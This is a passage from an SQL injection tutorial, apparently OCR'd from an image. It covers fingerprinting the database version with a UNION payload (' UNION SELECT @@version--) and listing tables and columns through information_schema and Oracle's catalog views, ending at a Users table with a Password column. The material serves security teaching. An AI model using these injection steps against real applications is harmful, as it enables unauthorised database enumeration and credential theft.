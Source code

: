 ### Querying the database type and version
Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:


| Database type	| Query |
| --- | --- |
|Microsoft, MySQL |	`SELECT @@version`
Oracle|	`SELECT * FROM v$version`
PostgreSQL|	`SELECT version()`

For example, you could use a UNION attack with the following input:
`
' UNION SELECT @@version--
`
This might return output like the following, confirming that the database is Microsoft SQL Server, and the version that is being used:
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```
### Listing the contents of the database
Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query information_schema.tables to list the tables in the database:
```
SELECT * FROM information_schema.tables
```
This returns output like the following:
```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
=====================================================
MyDatabase dbo Products BASE TABLE
MyDatabase dbo Users BASE TABLE
MyDatabase dbo Feedback BASE TABLE
```
This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:
```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
This returns output like the following:
```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase dbo Users UserId int
MyDatabase dbo Users Username varchar
MyDatabase dbo Users Password varchar
```
This output shows the columns in the specified table and the data type of each column.
#### For Oracle type databases
You can list tables by querying all_tables:
```
SELECT * FROM all_tables
```
And you can list columns by querying all_tab_columns:
```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```